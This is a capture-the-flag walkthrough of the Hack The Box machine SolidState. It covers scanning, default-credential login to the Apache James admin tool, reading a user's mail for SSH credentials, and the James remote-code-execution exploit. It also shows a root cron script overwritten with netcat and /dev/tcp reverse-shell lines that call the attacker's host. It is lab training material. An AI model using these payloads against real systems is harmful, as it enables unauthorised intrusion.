

hackthebox SolidState
Released: 8th September 2017 / Pwned: 8th October 2019 - [+] Solved whilst Retired

SolidState has you exploit JAMES. You access the JAMES Remote Admin port using the default credentials of root / root, change the passwords of mindy and john, and grab mindy's SSH password by connecting to her email on port 110. Once on the box, you're in a restricted bash shell. You can escape the shell using a JAMES RCE exploit, which gets triggered when a user logs into the box. Once outside the restricted shell, you find a world-writable script owned by root in /opt/tmp.py, which is being run by root as a cronjob.
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.51
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p 22,25,80,110,119,4555 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.51
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/solidstate# mkdir nmap
root@gotham:~/ctf/solidstate# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.51
[...]
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
110/tcp open pop3
119/tcp open nntp
4555/tcp open rsip
root@gotham:~/ctf/solidstate# nmap -p 22,25,80,110,119,4555 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.51
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
| 2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
| 256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_ 256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp open smtp JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.15 [10.10.14.15]),
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open pop3 JAMES pop3d 2.3.2
119/tcp open nntp JAMES nntpd (posting ok)
4555/tcp open james-admin JAMES Remote Admin 2.3.2
[...]
Scan analysis:
• 22/ssh - Useful to know for later
• 25/smtp + 110/pop3 - Mail is running
• 119/nntp - Network News Protocol
• 80/http - A website! A good place to look because websites have a huge attack vector
• 4555/tcp - An open remote admin port... interesting
I decided to look at the open remote admin port first.
2) 4555/tcp - JAMES Remote Admin
JAMES/Apache James is an open source SMTP and POP3 mail server written in Java by the Apache Foundation.
Nmap found a version number - 2.3.2 - so have a look for exploits.
root@gotham:~/ctf/solidstate# searchsploit JAMES
------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
Apache James Server 2.2 - SMTP Denial of Service | exploits/multiple/dos/27915.pl
Apache James Server 2.3.2 - Remote Command Execution | exploits/linux/remote/35513.py
WheresJames Webcam Publisher Beta 2.0.0014 - Remote Bu | exploits/windows/remote/944.c
------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Remote code execution looks great.
Copy it to a working directory of yours and read it.
root@gotham:~/ctf/solidstate# mkdir exploits
root@gotham:~/ctf/solidstate# cd exploits
root@gotham:~/ctf/solidstate/exploits# cp /usr/share/exploitdb/exploits/linux/remote/35513.py ./james.py
root@gotham:~/ctf/solidstate/exploits# nano james.py
The exploit's RCE requires authentication.
However, the exploit mentions that the default credentials for the JAMES Remote Admin tool are root / root
(you could also find this via google)
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
2a) Log in to Remote Admin tool
Use the default credentials to log into the JAMES Remote Admin tool.
Run HELP to list the available commands.
root@gotham:~/ctf/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help display this help
listusers display existing accounts
countusers display the number of existing accounts
adduser [username] [password] add a new user
verify [username] verify if specified user exist
deluser [username] delete existing user
setpassword [username] [password] sets a user's password
setalias [user] [alias] locally forwards all email for 'user' to 'alias'
showalias [username] shows a user's current email alias
unsetalias [user] unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username] shows a user's current email forwarding
unsetforwarding [username] removes a forward
user [repositoryname] change to another user repository
shutdown kills the current JVM (convenient when James is run as a daemon)
quit close connection
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
There are 5 users.
We can change their password with setpassword.
I changed the password for every user to “hey�, but the most important user password to change is mindy.
[...]
setpassword mindy hey
Password for mindy reset
3) Read mindy's mail
With mindy's new password, we can log into her email.
root@gotham:~/ctf/solidstate# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
USER mindy
+OK
PASS hey
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
for <mindy@localhost>;
Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access
Dear Mindy,
Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.
username: mindy
pass: P@55W0rd1!2@
Respectfully,
James
Credentials!
Gain Access
4) ssh
Log in as mindy via ssh using the found credentials - mindy / P@55W0rd1!2@
root@gotham:~/ctf/solidstate# ssh mindy@10.10.10.51
mindy@10.10.10.51s password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin user.txt
mindy@solidstate:~$ cat user.txt
914d0a4eb...
As you'll quickly find out, we're in a restricted shell - an rbash restricted shell.
mindy@solidstate:~$ echo $SHELL
/bin/rbash
5) Escape Restricted Shell - JAMES RCE Exploit
You can escape the restricted shell using the JAMES remote code execution exploit found earlier.
https://www.exploit-db.com/exploits/35513
This RCE exploit gets triggered when a user logs into the box.
Because we have SSH access to the box as mindy, we can trigger the exploit.
Modify the payload variable in the exploit to send a reverse shell back to your attacking machine.
[...]
# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '/bin/bash -i >& /dev/tcp/10.10.14.15/9001 0>&1'
[...]
Start a listener on your attacking machine to receive the shell
root@gotham:~/ctf/solidstate# nc -lvnp 9001
listening on [any] 9001 ...
Run the exploit
root@gotham:~/ctf/solidstate/exploits# python james-rce.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
And SSH in as mindy to trigger the exploit.
You should see a reverse shell on your listener.
root@gotham:~/ctf/solidstate# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
[...]
[...]
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.51] 42722
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
We can now execute whatever commands we like :)
Priv-Esc
6) World-Writable Files
Search the system for world-writable files
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ find / -xdev -type f \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
/opt/tmp.py
There's a world-writable python script.
Check its permissions.
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ ls -l /opt/tmp.py
ls -l /opt/tmp.py
-rwxrwxrwx 1 root root 105 Aug 22 2017 /opt/tmp.py
The script is owned by root, and we have write access to it.
If you cat the script you'll see that it's deleting the contents of /tmp.
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
os.system('rm -r /tmp/* ')
except:
sys.exit()
If a cronjob is running this file as root, we'll have root code code execution because we can modify the file.
We don't know that there's a root cronjob running this file, but it's not overly optimistic to presume that there might be.
Deleting all the files in /tmp is one command - rm -r /tmp/*.
Why would an admin create a script for a command that can by typed in under a second? Probably because they've set up a cronjob.
If you ever see a file owned by root that you have write access to it, modify it.
You never know, that file might be running as a cronjob and give you code execution.
7) Modify /opt/tmp.py
I took the existing python code and modified it to send myself a reverse shell, but you could write anything.
echo -e enables interpretation of backslash escapes, meaning we can format our echoed input to include newlines - \n - and tabs - \t.
My python script looked like this:
#!/usr/bin/env python
import os
import sys
try:
os.system("nc 10.10.14.15 9002 -e /bin/bash")
except:
sys.exit()
And my echo command to write the above script into a file, properly formatted, was this:
echo -e '#!/usr/bin/env python\nimport os\nimport sys\ntry:\n\tos.system("nc 10.10.14.15 9002 -e /bin/bash")\nexcept:\n\tsys.exit()' > /opt/tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ echo -e '#!/usr/bin/env python\nimport os\nimport sys\ntry:\n\tos.system("nc 10.10.14.15 9002 -e /bin/bash")\nexcept:\n\tsys.exit()' > /opt/tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
os.system("nc 10.10.14.15 9002 -e /bin/bash")
except:
sys.exit()
Start a listener on your attacking machine and wait.
You should receive a root shell.
root@gotham:~/ctf/solidstate# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.51] 48814
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
b4c9723a2...
If you check root's cronjobs, our suspicions were correct.
There was a cronjob running /opt/tmp.py every 3 minutes (?).
crontab -l
[...]
# m h dom mon dow command
*/3 * * * * python /opt/tmp.py